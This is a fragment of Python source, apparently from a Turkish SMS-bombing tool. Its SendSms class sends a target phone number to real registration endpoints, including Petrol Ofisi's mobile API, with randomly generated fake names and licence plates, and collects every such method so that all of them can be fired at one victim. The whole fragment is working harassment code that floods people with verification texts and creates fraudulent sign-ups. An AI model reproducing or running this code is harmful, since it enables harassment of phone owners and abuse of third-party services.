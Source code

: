             "confirm": True,
            "tom_pay_allowed": True
        }
        r = requests.post(url=url, json=payload, timeout=5)
        if r.status_code == 202:
            print(f"{Fore.LIGHTGREEN_EX}[+] {Style.RESET_ALL}Başarılı! {self.phone} --> goyakit")
            self.adet += 1
        else:
            raise
     except:
        print(f"{Fore.LIGHTRED_EX}[-] {Style.RESET_ALL}Başarısız! {self.phone} --> goyakit")

    #petrolofisi
    def petrolofisi(self):
     try:
        url = "https://mobilapi.petrolofisi.com.tr:443/api/auth/register"
        payload = {
            "approvedContractVersion": "v1",
            "approvedKvkkVersion": "v1",
            "contractPermission": True,
            "deviceId": "",
            "etkContactPermission": True,
            "kvkkPermission": True,
            "mobilePhone": f"0{self.phone}",
            "name": f"{''.join(random.choices(string.ascii_lowercase, k=8))}",
            "plate": f"{str(random.randrange(1, 81)).zfill(2)}{''.join(random.choices(string.ascii_uppercase, k=3))}{str(random.randrange(1, 999)).zfill(3)}",
            "positiveCard": "",
            "referenceCode": "",
            "surname": f"{''.join(random.choices(string.ascii_lowercase, k=8))}"
        }
        headers = {
            "X-Channel": "IOS"
        }
        r = requests.post(url=url, headers=headers, json=payload, timeout=5)
        if r.status_code == 204:
            print(f"{Fore.LIGHTGREEN_EX}[+] {Style.RESET_ALL}Başarılı! {self.phone} --> goyakit")
            self.adet += 1
        else:
            raise
     except:
        print(f"{Fore.LIGHTRED_EX}[-] {Style.RESET_ALL}Başarısız! {self.phone} --> goyakit")

    #SON


servisler_sms = []
for attribute in dir(SendSms):
    attribute_value = getattr(SendSms, attribute)
    if callable(attribute_value):
        if attribute.startswith('__') == False:
            servisler_sms.append(attribute)
